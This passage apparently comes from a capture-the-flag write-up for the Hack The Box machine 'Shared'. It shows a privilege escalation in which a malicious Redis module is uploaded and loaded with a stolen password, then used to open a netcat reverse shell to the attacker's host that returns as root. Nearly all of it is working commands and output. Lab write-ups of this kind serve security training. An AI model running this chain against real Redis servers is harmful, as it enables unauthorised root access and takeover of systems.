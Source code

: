 ```bash
$ scp -i ../dan_smith module.so dan_smith@shared.htb:/home/dan_smith/module.so
module.so                                                                                                                 100%   47KB 628.2KB/s   00:00
```

Start a reverse shell listener.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
```

Authenticate to `redis`, load the module, and execute a reverse shell.

```bash
dan_smith@shared:~$ cat redis-cmds.txt
MODULE LOAD /home/dan_smith/module.so
MODULE LIST
system.exec id
system.rev 10.10.14.40 9000

dan_smith@shared:~$ redis-cli -a 'F2WHqJUz2WEz=Gqq' < redis-cmds.txt
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
"uid=0(root) gid=0(root) groups=0(root)\n"

```

Catch the shell as `root`.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.40] from (UNKNOWN) [10.129.41.137] 50364
id
uid=0(root) gid=0(root) groups=0(root)
ls -la /root/root.txt
-rw-r----- 1 root root 33 Nov 17 19:19 /root/root.txt
```
